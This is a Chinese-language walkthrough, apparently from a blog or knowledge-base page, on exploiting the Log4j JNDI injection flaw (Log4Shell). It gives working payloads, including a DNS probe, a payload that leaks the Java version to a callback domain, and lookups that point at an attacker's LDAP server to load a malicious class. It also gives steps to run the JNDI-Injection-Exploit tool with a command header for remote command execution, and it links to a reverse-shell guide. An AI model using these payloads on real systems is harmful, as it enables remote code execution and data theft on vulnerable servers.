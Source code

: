 jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>



## 步骤1
1、打开页面使用${jndi:ldap\://dnslog}插入到表单中点击提交，然后查看dnslog\
![](https://img.kancloud.cn/a1/88/a1881ec3b5890974a493c59bb92a5d72_786x396.png)\
2、使用dnslog查看Java版本payload：

```
${jndi:ldap://${sys:java.version}.dnslog}
```

![](https://img.kancloud.cn/89/5a/895a9b0aa03b54711c4236569aa62542_768x155.png)\
3、使用burp抓包，发送到重放模块，并将get修改成post\
![](https://img.kancloud.cn/4e/52/4e52858e704c39ec0d044b3f8a0e1350_737x445.png)\
4、下载JNDIExploit工具，本地开启一个ldap服务\
JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar用java8运行
![](https://img.kancloud.cn/bd/fa/bdfa00547d5086a394a17cdfd818744e_726x45.png)\
5、将payload修改${jndi:ldap\://ldap地址:1389/Basic/TomcatEcho}，在包内添加cmd头加上想执行的命令 （注：如Basic不可用可换成tomcatbypass）\
![](https://img.kancloud.cn/fb/a0/fba047856b3c0404f54ea7fc215d2947_714x390.png)

## []()步骤2

1、首先在攻击者的服务器上搭建两个服务\
第一个：服务网站上放恶意的class类。\
![](https://img.kancloud.cn/8f/9a/8f9ade1fbe93a21fafa568e924571b76_814x294.png)\
开启ldap或者rmi等服务（笔者这里用ldap）\
2、攻击\
然后将漏洞请求发过去

```
${jndi:ldap://ip:port/#Exploit}  
${jndi:ldap://1.1.1.1:9999/#Exploit}
```

